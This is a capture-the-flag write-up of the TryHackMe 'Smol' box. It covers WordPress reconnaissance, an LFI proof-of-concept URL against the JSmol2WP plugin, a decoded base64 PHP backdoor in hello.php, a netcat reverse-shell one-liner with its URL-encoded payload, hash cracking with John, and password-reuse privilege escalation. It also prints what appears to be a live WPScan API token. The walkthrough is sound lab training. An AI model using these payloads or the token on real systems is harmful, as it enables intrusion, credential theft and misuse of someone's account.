

# Write-up: **Smol**
[Smol](https://tryhackme.com/r/room/smol) is a medium-ranked CTF box that introduces us to vulnerable Wordpress plugins, highlighting the need for webmasters to keep dependencies up-to-date and to consider source and reputation of external packages. The vulnerable webpage allows the execution of malicious code, which gives the opportunity to gain a foothold on the system. Ultimately, root access is obtained through a combination of misconfigurations and poorly managed passwords.

## Reconaissance
As usual, our first step is to scan the victim's machine for open ports and identify services that are being offered. Using `nmap`, we scan the 1000 most popular ports.
```
nmap -sV smol.thm
```
As the result shows us, two ports are open, one offering SSH and the other an Apache webserver.
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

When we try to visit the website offered on port 80, we are being redirected to `www.smol.thm`, a domain that is unknown to our DNS server. Subsequently, we add the domain to our `/etc/hosts` file, allowing us to finally see the page.


As we can see on the bottom-right of the page, the website is powered by the Wordpress framework. Therefore we can use `wpscan` to gather more information. Registering on [WPScan's website](https://wpscan.com/) allows you to additionally make use of API tokens, which enables `wpscan` to access the WordPress Vulnerability Database, basically allowing your scan to automatically detect vulnerable plugins and themes. Using the free-plan, one receives 25 tokens per day.
```
wpscan --url www.smol.thm --api-token WEHKBQUrGbrJWLv7F7yWCJoZkARqtYlh1DDnsZ46n6E
```
Among others, we are able to identify the follwing vulnerability in the JSmol2WP plugin, that allows us to manipulate server-sided requests, which can potentially be elevated to a LFI.
```
 | [!] Title: JSmol2WP <= 1.07 - Unauthenticated Server Side Request Forgery (SSRF)
 |     References:
 |      - https://wpscan.com/vulnerability/ad01dad9-12ff-404f-8718-9ebbd67bf611
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20463
 |      - https://www.cbiu.cc/2018/12/WordPress%E6%8F%92%E4%BB%B6jsmol2wp%E6%BC%8F%E6%B4%9E/#%E5%8F%8D%E5%B0%84%E6%80%A7XSS
```
Following up the first reference, we find a proof of concept, allegedly allowing us to include files of the server into the rendered webpage.
```
http://localhost:8080/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```

## Establishing a Foothold
Executing the PoC (*of course after having exchanged domain and port*) yields an interesting finding, since we can see the credentials of the MySQL user that is used by Wordpress.
```
/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', -REDACTED- );
```
If the developers that set up the server were prudent, they of course did not reuse those credentials for an actual user of the Wordpress blog. But were they? Since we can't directly navigate to the login page, we just open the blog article about RCEs and try to comment under it, which will redirect us to the login. And in fact, we can succesfully authenticate with the credentials that we just found.

We proceed to the admin section by clicking on the profile picture on the top-right of the page. There we can see that our user does not have an administrator role, since we can't see the user managament and plugins menu sections. On the other hand, we do have some kind of higher privilege, since we are able to maintain an internal page written by the administrator, listing his tasks.


Wait, hold up! The webmaster is talking about a backdoor in the "Hello Dolly" plugin? Wouldn't it be nice to inspect the content of this plugin, to see if the backdoor really does exist and how to make use of it? But since we're not administrators, we can't manage the Wordpress plugins and read their code - But we already have found a LFI, we just need to know where plugins are located and how they are structured.

Since Wordpress is a well-known and open-source framework, we can easily find out that plugins are located under `/wp-content/plugin/`. Digging a little deeper into the plugin "Hello Dolly", a minimalistic plugin for inserting little phrases into the webpage, we can also find out that this plugin is delivered as a single file, named `hello.php`. Let's include this file, as we did earlier with `wp-config.php` in the reconaissance stage.

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php
```

In it, we find the following suspicious line of code, that the run every time the plugin is invoked.

```
eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
```

A line of code is added to `hello.php` by the `eval` statement, which is obfuscated by base64 encoding. Let's decode the line.

```
echo CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA= | base64 -d
```

> if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); }

Interpreting the combination of octal and hexadecimal literals in the strings, we see that the existence of the GET parameter `cmd` is checked; if it exists, its value is being executed. We found ourselves a RCE!

Trying to invoke the backdoor by directly calling the `hello.php` script leads to an internal server error, which requires us to specify the `cmd` parameter on any other page that includes the "Hello Dolly" plugin functionality. This is for example the case on our profile page. Let's try a simple PoC.

```
http://www.smol.thm/wp-admin/profile.php?cmd=id
```



The following command allows us to establish a reverse shell. Of course, we have to listen on port 4444.

```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc {Your IP} 4444 > /tmp/f
```

We URL encode it and append it to the blog's url, which gives us the final payload.

```
http://www.smol.thm/wp-admin/profile.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20{Your IP}%204444%20%3E%2Ftmp%2Ff
```

## Privilege Escalation
As we saw earlier, we're the `www-data` user. We can see that there exist four other users on the system, `diego`, `gege`, `think` and `xavi`. Unfortunately, we can't access any of their home folders. At this point, one can facilitate the machine enumeration by using scripts such as [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) to find a possibility for privilege escalation. For this machine, no extensive enumeration is required because we can easily find an interesting backup file, `wp_backup.sql`, under `/opt`, obviously a backup of some or all of the Wordpress data. This could be very helpful, since it potentially contains password hashes and other useful information. To inspect the file's content, one can copy the backup file to the web root (`/var/www/wordpress`), to then just download it with the browser.

In the file we can see the restoration routine for the user table. We find six password hashes, whereby one password hash probably correlates with the password for `wpuser` that we already know. We copy the hashes into a file, which can be processed by John for cracking.

```
admin:-REDACTED HASH-
wpuser:-REDACTED HASH-
think:-REDACTED HASH-
gege:-REDACTED HASH-
diego:-REDACTED HASH-
xavi:-REDACTED HASH-
```

We can then try to crack the hashes with John with the following command, using `rockyou.txt` as wordlist.

```
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

After a while, we can see that John was able to crack two of the six passwords and we obtain passwords for `diego` and `gege`. The latter seems to have been changed in the past, since we can't use it to log into Wordpress or the local account. The credentials of `diego` on the other hand let's us login as him with `su diego`. In our new home folder, we find the `user.txt` flag.

Since all the four users are part of the group `internal`, we can enumerate the other user's home folders. We can see that `think` has an `.ssh` folder which contains a private and readable SSH key. And in fact, this private key allows us to logon to the machine as `think` via SSH.

At this point I actually loaded `linPEAS` onto the machine, since I got stuck. After extensive analysis and having eliminated a few false-positives (e.g. a 95% attack vector kernel exploit, which turned out to be not applyable) I redeemed the second hint of this room, indicating that `linPEAS` itself doesn't find the vulnerability, but indicates it, by prompting the user to check some things himself. After more search, I found that `linPEAS` can't use `su` to try logging in passwordless as another user, strongly suggesting to do it manually. It turns out that the user `think` can passwordless login as user `gege`. This step in the privilege escalation demonstrates, that solutions do not always need to be complex and that a penetration tester has to work thorough, even though some vectors appear to obvious and stupid to him.

In the home directory of the user `gege`, we find (or already found) a compressed backup of the whole Wordpress web directory, at least this is what the file's name indicates. Prior, we didn't have read access to the file but are now able to unzip it. When doing so, we are prompted for a password. In fact, we aready found one of the user's old passwords. If we are lucky, the time of the backup's creation and the active use of the password collide. And so it does!

Inspecting the content of the unzipped archive, we should immediately inspect the `wp-config.php` file, since the provided password may differ to the one we already found earlier. In this version of the file, it seems that the user `xavi` temporarily setup the DB access with his private credentials, giving us another password to try. As user `gege`, we can climb another rung by using `su xavi` and the newly found password.

The last step is fairly obvious, since the user `xavi` is allowed to run every command with `sudo`, as `sudo -l` tells us. `sudo -s` quickly gives us a root shell and allows us to retrieve the `root.txt` flag.

## Conclusion
I hope you had as much fun as I had hacking this box and that this write-up could give you some insights. The box taught me to remain thorough in my approach, which is a valuable lesson. Thanks to [josemlwdf](https://tryhackme.com/r/p/josemlwdf) for creating this room.
